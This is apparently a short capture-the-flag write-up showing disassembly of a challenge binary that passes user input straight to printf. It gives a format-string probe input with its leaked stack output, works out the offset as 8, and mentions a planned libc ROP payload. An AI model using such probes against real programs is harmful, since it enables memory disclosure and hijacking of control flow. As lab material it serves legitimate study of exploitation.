 

    0000000000001199 <main>:
        .....
        1218:	48 89 c7             	mov    rdi,rax
        121b:	e8 40 fe ff ff       	call   1060 <fgets@plt>
        1220:	48 8d 05 04 0e 00 00 	lea    rax,[rip+0xe04]        # 202b <_IO_stdin_used+0x2b>
        1227:	48 89 c7             	mov    rdi,rax
        122a:	b8 00 00 00 00       	mov    eax,0x0
        122f:	e8 1c fe ff ff       	call   1050 <printf@plt>
        .....

The vulnerability lies in the main function. 
It passes whatever we input into the print function which means we can use format string to get the flag

    
    >ABCDEFGHIJKLMOPQRSTUVWXYZ,%8$llx,%9$llx,%10$llx
    Santa brought you a ABCDEFGHIJKLMOPQRSTUVWXYZ,4847464544434241,51504f4d4c4b4a49,5958575655545352

The offset is `8`.

We can write a ROP payload and use the gadgets in libc to get the flag


